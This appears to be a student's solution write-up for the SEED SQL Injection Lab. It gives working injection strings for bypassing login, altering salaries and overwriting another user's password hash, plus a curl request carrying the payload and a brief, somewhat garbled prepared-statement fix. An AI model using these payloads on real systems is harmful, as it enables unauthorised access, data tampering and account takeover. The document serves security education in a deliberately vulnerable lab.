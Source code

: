 # SEED-SQL-Injection-Lab
SEED SQL Injection Lab complete solution Code and Screenshots added in PDF file. 
Lab Tasks
Task 1: Get Familiar with SQL Statements 

$ mysql -u root -pseedubuntu

mysql> show databases;

mysql> use Users;
 
mysql> show tables;

mysql>  select * from credential where name = ‘Alice’;

 
 
Task 2.1: SQL Injection Attack from webpage.

Type “ admin’ # ” in the Username field and leave empty the password field. 
 
Task 2.2: SQL Injection Attack from command line.

Write Code on Terminator in Seed Lab:

curl 'http://www.seedlabsqlinjection.com/unsafe_home.php?username=Admin%27%20%23';
 
 
Task 3.1: Modify your own salary.
As shown in the Edit Profile page, employees can only update their nicknames, emails, addresses, phone numbers, and passwords; they are not authorized to change their salaries. Assume that I am Alice. I want to increase my own salary by exploiting the SQL injection vulnerability in the Edit-Profile page. I know that salaries are stored in a column called salary.

I will use the statement ine the NickName field: ', Salary=10000 where name = ‘Alice’ #
 
Task 3.2: Modify other people’ salary.

I want to reduce Boby’s salary to 1 dollar.

Use statement in Alice’s profile editor: ', Salary=1 where name = ‘Boby’ # 
 
Task 3.3: Modify other people’ password.

I want to change Boby’s password that I can log into his account and do further damage.
It uses SHA1 hash function to generate the hash value of password.
Use the following statement:

echo -n “tedwashere” | sha1sum
 

Copy the code you get and paste in Alice’s profile editor as the following statement:
', password=(code you copied) where name = ‘Boby’ #
  
Task 4: Countermeasure — Prepared Statement.

seed@VM:-$ /var/www/SQLInjection/ bash: /var/www/SQL Injection/: Is a directory
seed@VM:-$ cd /var/www/SQLInjection/ 
seed@VM: .../SQLInjections ls
seed@VM:.../SQLInjections subl safe_home.php
seed@VM:.../SQLInjection$ subl unsafe_home.php

After exicute these codes copy the code from line 70 to 80 in SAFE_HOME_PHP and paste over the line 70 to 100 in UNSAFE_HOME_PHP file then save the code file.
after saving run these codes in terminal.
[10/30/21] seed@VM: .../SOLInjection$ cd .. 
[10/30/21] seed@VM:.../www$ cd..
[10/30/21] seed@VM:/var$ cd
[10/30/21] 11seed@VM:/$ sudo service apache2 reset
[10/30/211seed@VM:/$

 
   
 
